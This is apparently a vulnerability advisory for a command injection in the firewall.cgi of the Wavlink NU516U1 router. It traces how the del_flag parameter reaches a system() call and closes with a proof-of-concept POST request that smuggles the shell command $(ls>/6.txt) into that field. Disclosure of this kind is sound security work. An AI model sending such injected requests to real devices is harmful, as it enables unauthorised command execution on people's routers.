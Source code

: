 # Wavlink NU516 singlePortForwardDelete
### Overview
vendor: Wavlink
product: NU516U1
version: M16U1_V240425
type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the del_flag parameter in the sub_4016F0 function of the file firewall.cgi.
### Vulnerability details
In the ftext function, obtain the value of the firewall parameter via user input.

![](images/12.png)

Setting the value of the firewall parameter to singlePortForwardDelete will call the sub_4016F0 function.

![](images/13.png)

In the sub_4016F0 function, the value of the del_flag parameter is obtained via a post request. Then, the value of the del_flag parameter is passed to the v4 variable via the sprintf function, which in turn is passed to the sub_402C98 function. In the sub_402C98 function, the value of the v4 variable is passed into the byte_418C74 variable, and finally into the system function.

![](images/14.png)

![](images/15.png)

### POC
```
POST /cgi-bin/firewall.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 54
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1710518235
Connection: keep-alive

firewall=singlePortForwardDelete&del_flag=$(ls>/6.txt)
```
